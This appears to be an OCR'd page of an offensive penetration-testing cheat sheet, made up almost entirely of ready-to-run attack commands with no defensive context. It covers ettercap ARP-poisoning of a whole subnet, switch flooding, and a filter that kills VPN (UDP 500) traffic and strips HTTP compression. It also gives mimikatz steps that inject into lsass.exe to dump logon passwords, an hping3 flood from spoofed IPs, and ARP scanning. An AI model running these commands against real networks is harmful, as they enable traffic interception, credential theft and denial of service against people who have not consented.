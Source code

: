 
MAN-IN-THE-MIDDLE ENTIRE SUBNET WITH APPLIED FILTER

ettercap -T -M arp -F filter. // //


SWITCH FLOOD

ettercap -TP rand_flood


ETTERCAP FILTER


COMPILE ETTERCAP FILTER

etterfilter filter.filter -o out.ef


SAMPLE FILTER - KILLS VPN TRAFFIC AND DECODES HTTP TRAFFIC

if (ip.proto == UDP && udp.dst == 500){
  drop();
    kill(); }
if (ip.src == ' ip '){
  if (tcp.dst == 80){
    if (search(DATA.data, "Accept-Encoding")){
      replace("Accept-Encoding","Accept-Rubbish!");
      msg("Replaced Encoding\n");
      }
    }
}



MIMIKATZ
1. Upload mimikatz.exe and sekurlsa.dll to target
2. execute mimikatz
3. mimikatz# privilege::debug
4. mimikatz# inject::process lsass.exe sekurlsa.dll
5. mimikatz# @getLogonPasswords


HPING3


DoS FROM SPOOFED IPs

hping3 targetIP --flood --frag --spoof ip --destport # --syn


ARPING


ARP SCANNER

./arping -I eth# -a # arps


WINE

COMPILE EXE IN BACKTRACK

cd /root/.wine/drive_c/MinGW/bin 
wine gcc -o file.exe /tmp/ code.c 
wine file.exe
